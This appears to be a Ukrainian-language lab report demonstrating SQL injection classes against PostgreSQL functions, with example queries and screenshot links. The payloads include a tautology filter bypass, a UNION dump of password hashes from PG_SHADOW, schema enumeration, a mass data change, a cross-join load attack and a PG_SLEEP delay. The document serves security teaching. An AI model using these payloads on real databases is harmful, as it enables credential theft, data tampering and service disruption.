 ## Порушення конфіденційності

### SQL-ін'єкція підкласу "Зняття фільтрації рідків умови SQL-запиту"

Приклад SQL-ін'єкції підкласу "Зняття фільтрації рідків умови SQL-запиту":<br>
```SELECT * FROM get_data('Petrov'' OR 1=1 -- ');```<br>
![Результат SQL-ін'єкції](/secure_screenshots/1.png)

### SQL-ін'єкція підкласу "Отримання вмісту таблиць, що не входять у SQL-запит"

Приклад SQL-ін'єкції підкласу "Отримання вмісту таблиць, що не входять у SQL-запит":<br>
```SELECT * FROM get_data('Petrov'' UNION SELECT CAST(USESYSID AS INTEGER),CAST(USENAME AS VARCHAR), CAST(PASSWD AS VARCHAR) FROM PG_SHADOW --');```<br>
![Результат SQL-ін'єкції](/secure_screenshots/2.png)

### SQL-ін'єкція підкласу "Отримання структури таблиць БД"

Приклад SQL-ін'єкції підкласу "Отримання структури таблиць БД":<br>
```SELECT * FROM get_data('Petrov'' UNION SELECT 1,CAST(TABLE_NAME AS VARCHAR),CAST(NULL AS VARCHAR) FROM INFORMATION_SCHEMA.TABLES -- ');```<br>
![Результат SQL-ін'єкції](/secure_screenshots/3.png)

## Порушення цілісності даних

### SQL-ін'єкція підкласу "Порушення цілісності вмісту таблиць БД"

Приклад SQL-ін'єкції підкласу "Порушення цілісності вмісту таблиць БД":<br>
```SELECT * FROM change_data('Petrov'' OR 1 = 1 -- ',1);```<br>
![Результат SQL-ін'єкції](/secure_screenshots/4.png)

## Порушення доступності

### SQL-ін'єкція підкласу "Включення додаткового запиту з декартовим перемноженням підвищення навантаження на сервер"

Приклад SQL-ін'єкції підкласу "Включення додаткового запиту з декартовим перемноженням підвищення навантаження на сервер":<br>
```SELECT * FROM get_data('Petrov'' UNION SELECT a1, cast(a1 as varchar) as name, current_date + a1 as bd FROM (SELECT generate_series a1 FROM generate_series(1, 1000)) t1 CROSS JOIN (SELECT * FROM generate_series(1, 1000) t2) t3 -- ');```<br>
![Результат SQL-ін'єкції](/secure_screenshots/5.png)

### SQL-ін'єкція підкласу "Включення підзапиту зі сплячим процесом"

Приклад SQL-ін'єкції підкласу "Включення підзапиту зі сплячим процесом":<br>
```SELECT * FROM change_data(1,'Petrov'' OR EXISTS (SELECT 1 FROM PG_SLEEP(30)) -- ');```<br>
![Результат SQL-ін'єкції](/secure_screenshots/6.png)
